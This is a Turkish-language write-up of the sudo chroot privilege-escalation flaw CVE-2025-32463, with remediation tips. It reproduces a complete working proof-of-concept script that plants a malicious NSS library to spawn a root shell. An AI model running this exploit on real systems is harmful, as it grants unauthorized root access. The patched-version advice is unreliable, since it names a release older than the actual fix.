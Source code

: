 
# CVE-2025-32463 – Sudo EoP Exploit (sudo-chwoot.sh)

## Zafiyet Özeti

Bu write-up'ta, Rich Mirch tarafından yayınlanan `sudo-chwoot.sh` exploit kodunu kullanarak CVE-2025-32463 yerel yetki yükseltme (EoP) zafiyetini istismar ediyoruz. Zafiyet, `sudo`'nun `-R` parametresi (alternatif kök dizin belirleme) kullanılarak bazı güvenlik kontrollerini atlatabilmesinden kaynaklanıyor. Bu durum, bir kullanıcının özel olarak hazırlanmış bir ortamda `libnss` yüklemesini manipüle ederek root yetkili shell elde etmesini mümkün kılıyor.

---

## Hedef Sistem Özeti

| Özellik | Değer |
|--------|-------|
| Dağıtım | Ubuntu 22.04 |
| Sudo Sürümü | 1.9.15p2 |
| Güvenlik Güncellemeleri | Kapalı |
| Kullanıcı Yetkisi | sudo erişimli, ancak sınırlı `sudo -R` izni |

---

## Exploit Nasıl Çalışıyor?

### 1. `libnss` Manipülasyonu

`sudo` komutu çalıştırılırken, sistem kullanıcı bilgilerini almak için `libnss` (Name Service Switch) kütüphanelerine başvurur. Normalde bu kütüphaneler `/lib/x86_64-linux-gnu/` gibi sistem dizinlerinden yüklenir. Ancak `sudo -R` komutu ile kök dizin değiştirilirse (`chroot` benzeri bir ortam), `libnss` dosyaları belirtilen dizin altından yüklenmeye çalışılır.

### 2. `constructor` ile Yürütme

Exploit, `libnss_woot1337.so.2` adında bir shared object (paylaşımlı nesne) üretir. Bu dosyanın içinde yer alan `constructor` fonksiyonu sayesinde kütüphane yüklendiği anda otomatik olarak çalıştırılır:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu kod, efektif kullanıcı ve grup kimliklerini `0` (root) yaparak, sistem kabuğunu root yetkileriyle başlatır.

### 3. `sudo -R` ile Tuzağa Düşürme

```bash
sudo -R woot woot
```

Bu komut, `woot` dizinini kök (`/`) olarak kabul eder ve orada `libnss_woot1337.so.2` dosyasının bulunduğunu varsayarak onu yüklemeye çalışır. Bu sırada exploit tetiklenir ve kullanıcı doğrudan root shell elde eder.

---

## Exploit Kod Analizi

```bash
#!/bin/bash
# CVE-2025-32463 – Sudo EoP Exploit PoC

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c <<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## Proof of Concept

Script'i çalıştırıyoruz ve ardından shell açılıyor, `id` komutuyla ile root yetkisi doğrulanıyor.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/PoC.png)

---

## Teknik Detaylar

- `sudo` çalışırken, kullanıcı bilgilerini almak için `libnss` dosyalarını kök dizinden (`/`) göreceli olarak yükler.
- `-R` bayrağı, bu yolu saldırganın kontrolündeki bir dizine yönlendirerek kendi kütüphanesini yüklemesine olanak tanır.
- Kütüphane yüklenince, içindeki `constructor` kodu tetiklenir.
- Kod, root yetkileriyle kabuk açar ve kullanıcının kontrolünü sisteme verir.

---

## Zafiyetin Giderilmesi

**Güvenlik önlemleri:**

- `sudo` sürümünüzü 1.9.15p3 veya üstüne güncelleyin.
- Kullanıcıların `sudo -R` gibi özel root dizin belirleme yetkilerini kısıtlayın.
- NSS yüklemelerinde dış dizinlere güvenmeyin; sert yol tanımlamaları ve kütüphane doğrulaması uygulayın.

---

## Kaynaklar

- [https://www.stratascale.com/cve-2025-32463-analysis](https://www.stratascale.com/cve-2025-32463-analysis)
- [Exploit DB Kaydı](https://www.exploit-db.com/exploits/52352)
- [Rich Mirch – GitHub](https://github.com/mirchr/CVE-2025-32463-sudo-chwoot)

---

## Sonuç

Bu zafiyet, sistemin yapılandırma hatalarından faydalanarak root yetkilerinin kolayca alınmasına neden olmaktadır. `libnss` gibi temel sistem bileşenlerinin uygun şekilde yalıtılmaması ve `sudo -R`'nin etkili güvenlik kontrollerine tabi olmaması, bu açığın var olmasına neden olmuştur. Sistem yöneticileri, kullanıcıların yetkilerini dikkatli sınırlandırmalı ve `sudo` yapılandırmalarını düzenli olarak gözden geçirmelidir.
